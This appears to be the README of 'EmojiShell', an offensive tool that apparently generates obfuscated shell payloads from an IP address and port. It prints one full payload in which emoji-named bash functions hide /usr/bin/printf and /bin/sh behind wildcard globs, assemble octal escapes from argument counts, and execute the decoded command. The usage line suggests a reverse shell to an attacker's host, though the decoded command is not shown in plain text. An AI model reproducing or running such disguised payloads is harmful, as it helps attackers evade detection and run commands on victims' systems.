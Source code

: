 <center><br><h1>EmojiShell</h1><br></center>
<center><h5>🤑(){ /??r/??n/?r?nt? ${@};};💰(){ 🤑 ${#};};💻(){ /??n/?h -c "${@}";};B=$(🤑 "\\`💰 💢``💰 ㊙ ㊙ ㊙ ㊙``💰 🖤 🖤 🖤 🖤 🖤`\\`💰 🧫``💰 😵 😵 😵 😵``💰 🦠 🦠 🦠`\\`💰 ♻``💰 😱 😱 😱 😱 😱``💰`\\`💰 ㊙``💰 📺 📺 📺 📺 📺``💰 😱 😱 😱 😱 😱 😱 😱`\\`💰 🧫 🧫 🧫 🧫``💰`\\`💰 🔓 🔓 🔓 🔓``💰 🕷 🕷`\\`💰 🦠``💰 🔥``💰`\\`💰 ☄``💰 ☮ ☮ ☮ ☮``💰 🖪`\\`💰 ㊙``💰 👽 👽 👽 👽``💰 🎈 🎈 🎈`\\`💰 ☄``💰 👽 👽 👽 👽 👽``💰 🍄 🍄 🍄`\\`💰 🔑 🔑 🔑 🔑``💰`\\`💰 👻``💰 💫 💫``💰 🎵 🎵 🎵 🎵`\\`💰 💢``💰 ㊙ ㊙ ㊙ ㊙ ㊙``💰`\\`💰 👻``💰 🥳 🥳 🥳 🥳``💰 💣 💣 💣 💣 💣`\\`💰 📺 📺 📺 📺``💰`\\`💰 🔒``💰 🎶 🎶``💰`\\`💰 🐸``💰 ☣ ☣ ☣ ☣ ☣``💰 💻 💻 💻 💻`\\`💰 🦠``💰 📡 📡 📡 📡``💰 ⚛`\\`💰 🧫``💰 🖪 🖪 🖪 🖪 🖪``💰 🎊 🎊 🎊 🎊 🎊 🎊`\\`💰 🤑``💰 👾 👾 👾 👾``💰 🐸 🐸 🐸 🐸 🐸`\\`💰 ♻``💰 ♻ ♻ ♻ ♻ ♻ ♻``💰 🎵 🎵 🎵 🎵`\\`💰 👾 👾 👾 👾``💰 🎵`\\`💰 💻 💻 💻 💻``💰 ☄ ☄`\\`💰 💔 💔 💔 💔 💔 💔 💔``💰 🧪 🧪 🧪`");💻 "${B}";</h5><br></center>
<br>
<pre><code>
[m4x@lab:~]$ python emojishell.py
Usage: emojishell.py {IP address} {Port} {Output Filename}
</code></pre>

